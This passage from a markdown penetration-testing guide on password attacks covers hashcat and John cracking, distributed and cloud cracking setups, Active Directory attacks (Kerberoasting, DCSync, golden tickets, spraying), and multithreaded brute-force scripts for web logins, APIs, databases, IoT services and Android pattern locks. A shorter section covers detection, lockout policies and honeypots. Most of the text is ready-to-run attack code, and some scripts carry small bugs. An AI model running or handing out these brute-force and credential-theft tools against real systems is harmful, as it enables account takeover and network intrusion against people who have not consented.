    salt_lengths = [len(s) for s in salts if s]
    if salt_lengths:
        print(f"Average salt length: {sum(salt_lengths) / len(salt_lengths):.2f}")
        print(f"Salt length distribution: {Counter(salt_lengths).most_common(5)}")

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print("Usage: python3 salt_analyzer.py <hash_file>")
        sys.exit(1)
    analyze_salts(sys.argv[1])
EOF

# Generate custom rainbow tables with salts
rtgen md5 loweralpha 1 7 0 3800 33554432 0 -salt

# Hashcat salt handling
hashcat -m 20 salted_hashes.txt wordlist.txt  # SHA1 + salt
hashcat -m 10 salted_hashes.txt wordlist.txt  # MD5 + salt
```

## 8. Performance Optimization and Resource Management

:::note
Performance optimization requires understanding of hardware capabilities and thermal management. Monitor system temperatures and power consumption during extended cracking sessions.
:::

### 8.1 Hardware Optimization

```bash
# GPU information and monitoring
nvidia-smi
nvidia-ml-py3

# Hashcat benchmark
hashcat -b

# OpenCL device information
hashcat -I

# Custom workload tuning
hashcat -m 1000 -a 0 hashes.txt wordlist.txt -w 4 -O

# GPU-specific optimization
hashcat -m 1000 -a 0 hashes.txt wordlist.txt -d 1,2,3 --force

# Memory usage optimization
hashcat -m 1000 -a 0 hashes.txt wordlist.txt --bitmap-min=24 --bitmap-max=24

# Performance monitoring script
cat > monitor_performance.sh << 'EOF'
#!/bin/bash
LOG_FILE="performance.log"
echo "Timestamp,GPU_Temp,GPU_Power,Hash_Rate" > $LOG_FILE

while true; do
    TIMESTAMP=$(date '+%Y-%m-%d %H:%M:%S')
    GPU_TEMP=$(nvidia-smi --query-gpu=temperature.gpu --format=csv,noheader,nounits)
    GPU_POWER=$(nvidia-smi --query-gpu=power.draw --format=csv,noheader,nounits)
    
    # Extract hash rate from hashcat status
    HASH_RATE=$(ps aux | grep hashcat | grep -v grep | wc -l)
    
    echo "$TIMESTAMP,$GPU_TEMP,$GPU_POWER,$HASH_RATE" >> $LOG_FILE
    sleep 60
done
EOF

chmod +x monitor_performance.sh
./monitor_performance.sh &
```

### 8.2 Distributed Cracking

```bash
# Hashcat distributed cracking
# Node 1 (master)
hashcat -m 1000 -a 0 hashes.txt wordlist.txt --keyspace

# Calculate keyspace division
KEYSPACE=123456789
NODES=4
CHUNK_SIZE=$((KEYSPACE / NODES))

# Node distribution
hashcat -m 1000 -a 0 hashes.txt wordlist.txt -s 0 -l $CHUNK_SIZE          # Node 1
hashcat -m 1000 -a 0 hashes.txt wordlist.txt -s $CHUNK_SIZE -l $CHUNK_SIZE # Node 2

# John the Ripper distributed
john --node=1-4/8 passwords.txt  # Node 1 of 4, total 8 nodes
john --node=2-4/8 passwords.txt  # Node 2 of 4, total 8 nodes

# Automation script for distributed cracking
cat > distribute_crack.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import sys
import time

def get_keyspace(hash_file, wordlist, mode):
    cmd = ['hashcat', '--keyspace', '-m', str(mode), '-a', '0', hash_file, wordlist]
    result = subprocess.run(cmd, capture_output=True, text=True)
    return int(result.stdout.strip())

def distribute_work(hash_file, wordlist, mode, nodes):
    keyspace = get_keyspace(hash_file, wordlist, mode)
    chunk_size = keyspace // nodes
    
    print(f"Total keyspace: {keyspace}")
    print(f"Chunk size per node: {chunk_size}")
    
    for i in range(nodes):
        skip = i * chunk_size
        limit = chunk_size if i < nodes - 1 else keyspace - skip
        
        cmd = [
            'hashcat', '-m', str(mode), '-a', '0',
            hash_file, wordlist,
            '-s', str(skip), '-l', str(limit),
            '--session', f'node_{i}',
            '--potfile-path', f'node_{i}.pot'
        ]
        
        print(f"Node {i}: {' '.join(cmd)}")

if __name__ == "__main__":
    if len(sys.argv) != 5:
        print("Usage: python3 distribute_crack.py <hash_file> <wordlist> <mode> <nodes>")
        sys.exit(1)
    
    distribute_work(sys.argv[1], sys.argv[2], int(sys.argv[3]), int(sys.argv[4]))
EOF
```

### 8.3 Cloud-Based Cracking

```bash
# AWS GPU instance setup
aws ec2 run-instances \
    --image-id ami-0abcdef1234567890 \
    --count 1 \
    --instance-type p3.2xlarge \
    --key-name my-key-pair \
    --security-groups my-sg

# Google Cloud GPU setup
gcloud compute instances create hashcat-gpu \
    --zone=us-central1-a \
    --machine-type=n1-standard-4 \
    --accelerator=type=nvidia-tesla-k80,count=1 \
    --image-family=ubuntu-1804-lts \
    --image-project=ubuntu-os-cloud

# Docker container for distributed cracking
cat > Dockerfile << 'EOF'
FROM nvidia/cuda:11.8-devel-ubuntu20.04

RUN apt-get update && apt-get install -y \
    wget \
    unzip \
    ocl-icd-opencl-dev \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /opt
RUN wget https://hashcat.net/files/hashcat-6.2.6.tar.gz \
    && tar -xzf hashcat-6.2.6.tar.gz \
    && cd hashcat-6.2.6 \
    && make

ENV PATH="/opt/hashcat-6.2.6:${PATH}"

WORKDIR /workspace
CMD ["hashcat", "--help"]
EOF

# Build and run container
docker build -t hashcat-gpu .
docker run --gpus all -v $(pwd):/workspace hashcat-gpu hashcat -b

# Kubernetes deployment for scaling
cat > hashcat-deployment.yaml << 'EOF'
apiVersion: apps/v1
kind: Deployment
metadata:
  name: hashcat-cluster
spec:
  replicas: 4
  selector:
    matchLabels:
      app: hashcat
  template:
    metadata:
      labels:
        app: hashcat
    spec:
      containers:
      - name: hashcat
        image: hashcat-gpu:latest
        resources:
          limits:
            nvidia.com/gpu: 1
        volumeMounts:
        - name: shared-storage
          mountPath: /workspace
      volumes:
      - name: shared-storage
        persistentVolumeClaim:
          claimName: hashcat-pvc
EOF
```

## 9. Detection and Defense Mechanisms

:::note
Understanding defensive measures is crucial for both attackers and defenders. These techniques help improve organizational security posture and develop better detection capabilities.
:::

### 9.1 Attack Detection Signatures

```bash
# Log analysis for brute force detection
cat > detect_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import re
from collections import defaultdict, Counter
from datetime import datetime, timedelta

def analyze_auth_logs(log_file, threshold=5, time_window=300):
    failed_attempts = defaultdict(list)
    
    # Common log patterns
    patterns = [
        r'Failed password for (\w+) from ([\d.]+)',  # SSH
        r'authentication failure.*user=(\w+).*rhost=([\d.]+)',  # PAM
        r'Invalid user (\w+) from ([\d.]+)',  # SSH invalid user
        r'Connection closed by ([\d.]+) port \d+ \[preauth\]',  # SSH preauth
    ]
    
    with open(log_file, 'r') as f:
        for line in f:
            for pattern in patterns:
                match = re.search(pattern, line)
                if match:
                    if len(match.groups()) == 2:
                        user, ip = match.groups()
                        timestamp = extract_timestamp(line)
                        failed_attempts[ip].append((user, timestamp))
    
    # Detect brute force attacks
    alerts = []
    for ip, attempts in failed_attempts.items():
        if len(attempts) >= threshold:
            recent_attempts = [a for a in attempts 
                             if (datetime.now() - a[1]).seconds <= time_window]
            if len(recent_attempts) >= threshold:
                alerts.append({
                    'ip': ip,
                    'attempts': len(recent_attempts),
                    'users': list(set([a[0] for a in recent_attempts])),
                    'timespan': time_window
                })
    
    return alerts

def extract_timestamp(log_line):
    # Simplified timestamp extraction
    return datetime.now()  # Implement proper timestamp parsing

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print("Usage: python3 detect_bruteforce.py <log_file>")
        sys.exit(1)
    
    alerts = analyze_auth_logs(sys.argv[1])
    for alert in alerts:
        print(f"ALERT: Brute force from {alert['ip']}")
        print(f"  Attempts: {alert['attempts']}")
        print(f"  Users: {', '.join(alert['users'])}")
EOF

# Network monitoring for password attacks
# Monitor failed authentication attempts
tail -f /var/log/auth.log | grep "Failed password"

# Monitor successful logins after failed attempts
tail -f /var/log/auth.log | grep "Accepted password"

# Detect password spraying
awk '/Failed password/ {print $11}' /var/log/auth.log | sort | uniq -c | sort -nr

# Monitor for unusual login times
awk '/Accepted password/ {print $1, $2, $3, $9}' /var/log/auth.log | sort
```

### 9.2 Defensive Countermeasures

```bash
# Account lockout policies
# Windows
net accounts /lockoutthreshold:3 /lockoutduration:30 /lockoutwindow:30

# Linux PAM configuration
cat >> /etc/pam.d/common-auth << 'EOF'
auth required pam_tally2.so deny=3 unlock_time=1800 even_deny_root
EOF

# Fail2Ban configuration for SSH
cat > /etc/fail2ban/jail.local << 'EOF'
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600
findtime = 600
EOF

# Rate limiting with iptables
iptables -A INPUT -p tcp --dport 22 -m state --state NEW -m recent --set
iptables -A INPUT -p tcp --dport 22 -m state --state NEW -m recent --update --seconds 60 --hitcount 4 -j DROP

# Strong password policies
cat > password_policy.py << 'EOF'
#!/usr/bin/env python3
import re
import string

def check_password_strength(password):
    score = 0
    feedback = []
    
    # Length check
    if len(password) >= 12:
        score += 2
    elif len(password) >= 8:
        score += 1
    else:
        feedback.append("Password should be at least 8 characters long")
    
    # Character diversity
    if re.search(r'[a-z]', password):
        score += 1
    else:
        feedback.append("Add lowercase letters")
    
    if re.search(r'[A-Z]', password):
        score += 1
    else:
        feedback.append("Add uppercase letters")
    
    if re.search(r'\d', password):
        score += 1
    else:
        feedback.append("Add numbers")
    
    if re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
        score += 1
    else:
        feedback.append("Add special characters")
    
    # Common patterns
    common_patterns = [
        r'123+', r'abc+', r'qwerty', r'password', r'admin',
        r'(.)\1{2,}', r'(012|123|234|345|456|567|678|789)'
    ]
    
    for pattern in common_patterns:
        if re.search(pattern, password, re.IGNORECASE):
            score -= 1
            feedback.append(f"Avoid common patterns")
            break
    
    # Strength classification
    if score >= 6:
        strength = "Strong"
    elif score >= 4:
        strength = "Medium"
    else:
        strength = "Weak"
    
    return {
        'strength': strength,
        'score': score,
        'feedback': feedback
    }

if __name__ == "__main__":
    password = input("Enter password to check: ")
    result = check_password_strength(password)
    print(f"Strength: {result['strength']} (Score: {result['score']}/7)")
    if result['feedback']:
        print("Suggestions:")
        for suggestion in result['feedback']:
            print(f"  - {suggestion}")
EOF

# Multi-factor authentication setup
# Google Authenticator PAM module
apt-get install libpam-google-authenticator

# Configure 2FA for SSH
echo "auth required pam_google_authenticator.so" >> /etc/pam.d/sshd
sed -i 's/ChallengeResponseAuthentication no/ChallengeResponseAuthentication yes/' /etc/ssh/sshd_config
```

### 9.3 Honeypot and Deception Technologies

```bash
# SSH honeypot setup
git clone https://github.com/cowrie/cowrie.git
cd cowrie
python -m venv cowrie-env
source cowrie-env/bin/activate
pip install -r requirements.txt

# Kippo honeypot for credential collection
git clone https://github.com/desaster/kippo.git
cd kippo
python kippo.py

# Web application honeypot
cat > web_honeypot.py << 'EOF'
#!/usr/bin/env python3
from flask import Flask, request, render_template_string
import logging
from datetime import datetime

app = Flask(__name__)

# Setup logging
logging.basicConfig(
    filename='honeypot.log',
    level=logging.INFO,
    format='%(asctime)s - %(message)s'
)

login_template = '''
<!DOCTYPE html>
<html>
<head><title>Admin Login</title></head>
<body>
    <h2>Administrator Login</h2>
    <form method="post">
        <p>Username: <input type="text" name="username" required></p>
        <p>Password: <input type="password" name="password" required></p>
        <p><input type="submit" value="Login"></p>
    </form>
</body>
</html>
'''

@app.route('/', methods=['GET', 'POST'])
@app.route('/admin', methods=['GET', 'POST'])
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        ip = request.remote_addr
        
        # Log the attempt
        logging.info(f"Login attempt from {ip}: {username}:{password}")
        
        # Always return login failed
        return "Login failed. Please try again."
    
    return render_template_string(login_template)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
EOF

# Database honeypot
cat > db_honeypot.py << 'EOF'
#!/usr/bin/env python3
import socket
import threading
import logging

logging.basicConfig(
    filename='db_honeypot.log',
    level=logging.INFO,
    format='%(asctime)s - %(message)s'
)

def handle_mysql_connection(conn, addr):
    try:
        # MySQL handshake simulation
        conn.recv(1024)  # Receive client hello
        
        # Send server greeting
        greeting = b'\x4a\x00\x00\x00\x0a\x35\x2e\x37\x2e\x33\x34\x2d\x6c\x6f\x67'
        conn.send(greeting)
        
        # Receive auth attempt
        auth_data = conn.recv(1024)
        logging.info(f"MySQL auth attempt from {addr}: {auth_data.hex()}")
        
        # Send auth failed
        conn.send(b'\x07\x00\x00\x02\xff\x15\x04\x23\x32\x38\x30\x30\x30')
        
    except Exception as e:
        logging.error(f"Error handling connection from {addr}: {e}")
    finally:
        conn.close()

def mysql_honeypot():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(('0.0.0.0', 3306))
    server.listen(5)
    
    print("MySQL honeypot listening on port 3306")
    
    while True:
        conn, addr = server.accept()
        thread = threading.Thread(target=handle_mysql_connection, args=(conn, addr))
        thread.start()

if __name__ == '__main__':
    mysql_honeypot()
EOF
```

## 10. Specialized Attack Scenarios

:::note
These specialized scenarios require deep understanding of specific technologies and protocols. Always ensure proper authorization and follow ethical guidelines when testing these techniques.
:::

### 10.1 Active Directory Credential Attacks

```bash
# Kerberoasting attack
GetUserSPNs.py domain.com/user:password -request -format hashcat -outputfile kerberoast_hashes.txt

# ASREPRoasting attack
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# DCSync attack
secretsdump.py domain.com/user:password@dc.domain.com -just-dc

# NTDS.dit extraction
secretsdump.py -ntds ntds.dit -system system.hive LOCAL

# Golden ticket attack preparation
ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com administrator

# Credential spraying against AD
crackmapexec smb targets.txt -u users.txt -p 'Password123' --continue-on-success

# LDAP authentication testing
ldapsearch -x -H ldap://dc.domain.com -D "user@domain.com" -W -b "dc=domain,dc=com"

# Advanced Kerberos attacks
cat > kerberos_attacks.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import sys
from datetime import datetime

def kerberoast_attack(domain, username, password, output_file):
    """Perform Kerberoasting attack"""
    cmd = [
        'GetUserSPNs.py',
        f'{domain}/{username}:{password}',
        '-request',
        '-format', 'hashcat',
        '-outputfile', output_file
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=300)
        if result.returncode == 0:
            print(f"Kerberoasting successful. Hashes saved to {output_file}")
            return True
        else:
            print(f"Kerberoasting failed: {result.stderr}")
            return False
    except subprocess.TimeoutExpired:
        print("Kerberoasting timed out")
        return False

def asreproast_attack(domain, users_file, output_file):
    """Perform ASREPRoasting attack"""
    cmd = [
        'GetNPUsers.py',
        f'{domain}/',
        '-usersfile', users_file,
        '-format', 'hashcat',
        '-outputfile', output_file
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=300)
        if result.returncode == 0:
            print(f"ASREPRoasting successful. Hashes saved to {output_file}")
            return True
        else:
            print(f"ASREPRoasting failed: {result.stderr}")
            return False
    except subprocess.TimeoutExpired:
        print("ASREPRoasting timed out")
        return False

def password_spray(targets_file, username, password):
    """Perform password spraying against multiple targets"""
    cmd = [
        'crackmapexec', 'smb',
        targets_file,
        '-u', username,
        '-p', password,
        '--continue-on-success'
    ]
    
    try:
        result = subprocess.run(cmd, capture_output=True, text=True, timeout=600)
        print(result.stdout)
        return result.returncode == 0
    except subprocess.TimeoutExpired:
        print("Password spraying timed out")
        return False

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 kerberos_attacks.py <kerberoast|asrep|spray> [args...]")
        sys.exit(1)
    
    attack_type = sys.argv[1]
    
    if attack_type == "kerberoast" and len(sys.argv) == 6:
        domain, username, password, output = sys.argv[2:6]
        kerberoast_attack(domain, username, password, output)
    elif attack_type == "asrep" and len(sys.argv) == 5:
        domain, users_file, output = sys.argv[2:5]
        asreproast_attack(domain, users_file, output)
    elif attack_type == "spray" and len(sys.argv) == 5:
        targets, username, password = sys.argv[2:5]
        password_spray(targets, username, password)
    else:
        print("Invalid arguments for attack type")
EOF
```

### 10.2 Web Application Password Attacks

```bash
# HTTP form brute force with Hydra
hydra -L users.txt -P passwords.txt target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# HTTPS form with cookies
hydra -L users.txt -P passwords.txt target.com https-post-form "/login:user=^USER^&pass=^PASS^&csrf=token:Invalid login:H=Cookie: PHPSESSID=abc123"

# WordPress brute force
wpscan --url https://target.com --usernames admin,administrator --passwords passwords.txt

# Custom web application brute forcer
cat > web_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import threading
import time
from queue import Queue
import argparse

class WebBruteForcer:
    def __init__(self, target_url, usernames, passwords, threads=10):
        self.target_url = target_url
        self.usernames = usernames
        self.passwords = passwords
        self.threads = threads
        self.found_credentials = []
        self.queue = Queue()
        self.session = requests.Session()
        
        # Populate queue with credential combinations
        for username in usernames:
            for password in passwords:
                self.queue.put((username, password))
    
    def attempt_login(self, username, password):
        """Attempt login with given credentials"""
        try:
            # Get CSRF token if needed
            resp = self.session.get(self.target_url)
            
            # Extract CSRF token (customize as needed)
            csrf_token = self.extract_csrf_token(resp.text)
            
            # Prepare login data
            login_data = {
                'username': username,
                'password': password,
                'csrf_token': csrf_token  # Include if needed
            }
            
            # Attempt login
            resp = self.session.post(
                self.target_url,
                data=login_data,
                timeout=10,
                allow_redirects=False
            )
            
            # Check for successful login indicators
            if self.is_successful_login(resp):
                print(f"[SUCCESS] {username}:{password}")
                self.found_credentials.append((username, password))
                return True
            else:
                print(f"[FAILED] {username}:{password}")
                return False
                
        except Exception as e:
            print(f"[ERROR] {username}:{password} - {str(e)}")
            return False
    
    def extract_csrf_token(self, html):
        """Extract CSRF token from HTML (customize as needed)"""
        import re
        match = re.search(r'name="csrf_token" value="([^"]+)"', html)
        return match.group(1) if match else None
    
    def is_successful_login(self, response):
        """Determine if login was successful (customize as needed)"""
        # Common indicators of successful login
        success_indicators = [
            'dashboard', 'welcome', 'logout', 'profile'
        ]
        
        failure_indicators = [
            'invalid', 'incorrect', 'failed', 'error', 'denied'
        ]
        
        # Check status code
        if response.status_code == 302:  # Redirect often indicates success
            return True
        
        # Check response content
        content = response.text.lower()
        
        # Look for failure indicators first
        for indicator in failure_indicators:
            if indicator in content:
                return False
        
        # Look for success indicators
        for indicator in success_indicators:
            if indicator in content:
                return True
        
        return False
    
    def worker(self):
        """Worker thread for brute force attempts"""
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                self.attempt_login(username, password)
                time.sleep(0.1)  # Rate limiting
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start the brute force attack"""
        print(f"Starting brute force attack against {self.target_url}")
        print(f"Usernames: {len(self.usernames)}, Passwords: {len(self.passwords)}")
        print(f"Total combinations: {len(self.usernames) * len(self.passwords)}")
        
        # Start worker threads
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        # Wait for completion
        self.queue.join()
        
        print(f"\nAttack completed. Found {len(self.found_credentials)} valid credentials:")
        for username, password in self.found_credentials:
            print(f"  {username}:{password}")

def load_wordlist(filename):
    """Load wordlist from file"""
    try:
        with open(filename, 'r', encoding='utf-8', errors='ignore') as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: File {filename} not found")
        return []

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Web Application Brute Forcer')
    parser.add_argument('url', help='Target URL')
    parser.add_argument('-u', '--usernames', required=True, help='Username wordlist file')
    parser.add_argument('-p', '--passwords', required=True, help='Password wordlist file')
    parser.add_argument('-t', '--threads', type=int, default=10, help='Number of threads')
    
    args = parser.parse_args()
    
    usernames = load_wordlist(args.usernames)
    passwords = load_wordlist(args.passwords)
    
    if not usernames or not passwords:
        print("Error: Could not load wordlists")
        sys.exit(1)
    
    bruteforcer = WebBruteForcer(args.url, usernames, passwords, args.threads)
    bruteforcer.start_attack()
EOF

# JSON API brute force
cat > api_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import json
import threading
from queue import Queue

def api_login_attempt(url, username, password):
    """Attempt API login"""
    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
    }
    
    data = {
        'username': username,
        'password': password
    }
    
    try:
        response = requests.post(
            url,
            json=data,
            headers=headers,
            timeout=10
        )
        
        # Check for successful authentication
        if response.status_code == 200:
            resp_data = response.json()
            if 'token' in resp_data or 'access_token' in resp_data:
                print(f"[SUCCESS] {username}:{password}")
                print(f"Response: {response.text}")
                return True
        
        print(f"[FAILED] {username}:{password} - Status: {response.status_code}")
        return False
        
    except Exception as e:
        print(f"[ERROR] {username}:{password} - {str(e)}")
        return False

# Example usage
# python3 api_bruteforce.py
EOF
```

### 10.3 Database Credential Attacks

```bash
# MySQL brute force
hydra -L users.txt -P passwords.txt mysql://target_ip

# PostgreSQL brute force
hydra -L users.txt -P passwords.txt postgres://target_ip

# MSSQL brute force
hydra -L users.txt -P passwords.txt mssql://target_ip

# MongoDB brute force
nmap -p 27017 --script mongodb-brute --script-args userdb=users.txt,passdb=passwords.txt target_ip

# Redis brute force
nmap -p 6379 --script redis-brute --script-args passdb=passwords.txt target_ip

# Custom database brute forcer
cat > db_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import pymysql
import psycopg2
import pymongo
import redis
import threading
from queue import Queue
import sys

class DatabaseBruteForcer:
    def __init__(self, target, port, db_type, usernames, passwords, threads=10):
        self.target = target
        self.port = port
        self.db_type = db_type.lower()
        self.usernames = usernames
        self.passwords = passwords
        self.threads = threads
        self.found_credentials = []
        self.queue = Queue()
        
        # Populate queue
        for username in usernames:
            for password in passwords:
                self.queue.put((username, password))
    
    def test_mysql(self, username, password):
        """Test MySQL connection"""
        try:
            connection = pymysql.connect(
                host=self.target,
                port=self.port,
                user=username,
                password=password,
                connect_timeout=5
            )
            connection.close()
            return True
        except:
            return False
    
    def test_postgresql(self, username, password):
        """Test PostgreSQL connection"""
        try:
            connection = psycopg2.connect(
                host=self.target,
                port=self.port,
                user=username,
                password=password,
                connect_timeout=5
            )
            connection.close()
            return True
        except:
            return False
    
    def test_mongodb(self, username, password):
        """Test MongoDB connection"""
        try:
            client = pymongo.MongoClient(
                host=self.target,
                port=self.port,
                username=username,
                password=password,
                serverSelectionTimeoutMS=5000
            )
            client.server_info()
            client.close()
            return True
        except:
            return False
    
    def test_redis(self, username, password):
        """Test Redis connection"""
        try:
            r = redis.Redis(
                host=self.target,
                port=self.port,
                password=password,
                socket_connect_timeout=5
            )
            r.ping()
            return True
        except:
            return False
    
    def test_credentials(self, username, password):
        """Test credentials based on database type"""
        if self.db_type == 'mysql':
            return self.test_mysql(username, password)
        elif self.db_type == 'postgresql':
            return self.test_postgresql(username, password)
        elif self.db_type == 'mongodb':
            return self.test_mongodb(username, password)
        elif self.db_type == 'redis':
            return self.test_redis(username, password)
        else:
            return False
    
    def worker(self):
        """Worker thread"""
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                
                if self.test_credentials(username, password):
                    print(f"[SUCCESS] {self.db_type}://{username}:{password}@{self.target}:{self.port}")
                    self.found_credentials.append((username, password))
                else:
                    print(f"[FAILED] {username}:{password}")
                
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start brute force attack"""
        print(f"Starting {self.db_type} brute force against {self.target}:{self.port}")
        
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        self.queue.join()
        
        print(f"Attack completed. Found {len(self.found_credentials)} valid credentials.")

if __name__ == "__main__":
    if len(sys.argv) != 7:
        print("Usage: python3 db_bruteforce.py <target> <port> <type> <users_file> <passwords_file> <threads>")
        print("Types: mysql, postgresql, mongodb, redis")
        sys.exit(1)
    
    target, port, db_type, users_file, passwords_file, threads = sys.argv[1:7]
    
    with open(users_file, 'r') as f:
        usernames = [line.strip() for line in f if line.strip()]
    
    with open(passwords_file, 'r') as f:
        passwords = [line.strip() for line in f if line.strip()]
    
    bruteforcer = DatabaseBruteForcer(
        target, int(port), db_type, usernames, passwords, int(threads)
    )
    bruteforcer.start_attack()
EOF
```

## 11. Mobile and IoT Device Password Attacks

:::note
Mobile and IoT attacks require specific tools and techniques. Always ensure you have proper authorization and understand the legal implications of testing these devices.
:::

### 11.1 Android Password Attacks

```bash
# ADB brute force for Android devices
adb devices
adb shell input text "1234"  # PIN attempt
adb shell input keyevent 66  # Enter key

# Android pattern brute force script
cat > android_pattern_crack.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time
import itertools

def send_pattern(pattern):
    """Send pattern to Android device via ADB"""
    # Pattern coordinates (approximate)
    coords = {
        1: (200, 400), 2: (400, 400), 3: (600, 400),
        4: (200, 600), 5: (400, 600), 6: (600, 600),
        7: (200, 800), 8: (400, 800), 9: (600, 800)
    }
    
    # Start at first point
    if pattern:
        x, y = coords[pattern[0]]
        subprocess.run(['adb', 'shell', 'input', 'touchscreen', 'swipe', 
                       str(x), str(y), str(x), str(y), '100'])
        
        # Draw pattern
        for i in range(1, len(pattern)):
            x, y = coords[pattern[i]]
            subprocess.run(['adb', 'shell', 'input', 'touchscreen', 'swipe', 
                           str(coords[pattern[i-1]][0]), str(coords[pattern[i-1]][1]),
                           str(x), str(y), '100'])
        
        time.sleep(1)

def generate_patterns(min_length=4, max_length=9):
    """Generate all possible patterns"""
    patterns = []
    for length in range(min_length, max_length + 1):
        for pattern in itertools.permutations(range(1, 10), length):
            patterns.append(pattern)
    return patterns

# Common patterns to try first
common_patterns = [
    [1, 2, 3, 6, 9],  # L shape
    [1, 2, 3, 4, 5, 6, 7, 8, 9],  # Full pattern
    [2, 4, 6, 8],  # Cross
    [1, 5, 9],  # Diagonal
    [3, 5, 7],  # Other diagonal
]

if __name__ == "__main__":
    print("Testing common patterns first...")
    for pattern in common_patterns:
        print(f"Trying pattern: {pattern}")
        send_pattern(pattern)
        time.sleep(2)  # Wait for unlock attempt
EOF

# APK password extraction
aapt dump badging app.apk | grep package
apktool d app.apk
grep -r "password\|secret\|key" app/

# Android keystore attacks
keytool -list -v -keystore debug.keystore
```

### 11.2 iOS Password Attacks

```bash
# iOS backup password attacks
# Extract backup manifest
python3 -c "
import plistlib
with open('Manifest.plist', 'rb') as f:
    manifest = plistlib.load(f)
    print('IsEncrypted:', manifest.get('IsEncrypted', False))
"

# Hashcat iOS backup cracking
# First, extract hash from backup
python3 ios_backup_extractor.py backup_folder > ios_hash.txt
hashcat -m 14800 ios_hash.txt wordlist.txt

# Custom iOS PIN brute force (jailbroken devices)
cat > ios_pin_crack.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time

def try_pin(pin):
    """Try PIN on jailbroken iOS device"""
    # This would require custom iOS tools and root access
    # Implementation depends on iOS version and jailbreak tools
    pass

# Common iOS PINs
common_pins = [
    "0000", "1234", "1111", "0001", "1212",
    "7777", "1004", "2000", "4444", "2222",
    "6969", "9999", "3333", "5555", "6666",
    "1313", "8888", "4321", "2001", "1010"
]

for pin in common_pins:
    print(f"Trying PIN: {pin}")
    try_pin(pin)
    time.sleep(1)
EOF
```

### 11.3 IoT Device Password Attacks

```bash
# Router default credential testing
cat > router_defaults.txt << 'EOF'
admin:admin
admin:password
admin:
root:admin
admin:1234
admin:pass
user:user
guest:guest
admin:router
admin:admin123
EOF

# Test default credentials
while IFS=':' read -r username password; do
    curl -u "$username:$password" -s "http://target_ip/admin" && echo "Success: $username:$password"
done < router_defaults.txt

# SNMP community string brute force
onesixtyone -c common_communities.txt target_ip

# UPnP device discovery and testing
nmap -sU -p 1900 --script=upnp-info target_range

# Custom IoT brute forcer
cat > iot_bruteforce.py << 'EOF'
#!/usr/bin/env python3
import requests
import threading
from queue import Queue
import time

class IoTBruteForcer:
    def __init__(self, target, service_type, credentials, threads=5):
        self.target = target
        self.service_type = service_type
        self.credentials = credentials
        self.threads = threads
        self.queue = Queue()
        self.found_credentials = []
        
        # Populate queue
        for username, password in credentials:
            self.queue.put((username, password))
    
    def test_http_auth(self, username, password):
        """Test HTTP basic authentication"""
        try:
            response = requests.get(
                f"http://{self.target}/",
                auth=(username, password),
                timeout=5
            )
            
            if response.status_code == 200:
                return True
            return False
        except:
            return False
    
    def test_telnet_auth(self, username, password):
        """Test Telnet authentication"""
        import telnetlib
        try:
            tn = telnetlib.Telnet(self.target, 23, timeout=5)
            tn.read_until(b"login: ")
            tn.write(username.encode('ascii') + b"\n")
            tn.read_until(b"Password: ")
            tn.write(password.encode('ascii') + b"\n")
            
            response = tn.read_some()
            tn.close()
            
            # Check for successful login indicators
            if b"$" in response or b"#" in response or b">" in response:
                return True
            return False
        except:
            return False
    
    def test_ssh_auth(self, username, password):
        """Test SSH authentication"""
        import paramiko
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(
                self.target,
                username=username,
                password=password,
                timeout=5
            )
            ssh.close()
            return True
        except:
            return False
    
    def test_credentials(self, username, password):
        """Test credentials based on service type"""
        if self.service_type == 'http':
            return self.test_http_auth(username, password)
        elif self.service_type == 'telnet':
            return self.test_telnet_auth(username, password)
        elif self.service_type == 'ssh':
            return self.test_ssh_auth(username, password)
        return False
    
    def worker(self):
        """Worker thread"""
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                
                if self.test_credentials(username, password):
                    print(f"[SUCCESS] {username}:{password}")
                    self.found_credentials.append((username, password))
                else:
                    print(f"[FAILED] {username}:{password}")
                
                time.sleep(0.5)  # Rate limiting for IoT devices
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start the attack"""
        print(f"Starting {self.service_type} brute force against {self.target}")
        
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        self.queue.join()
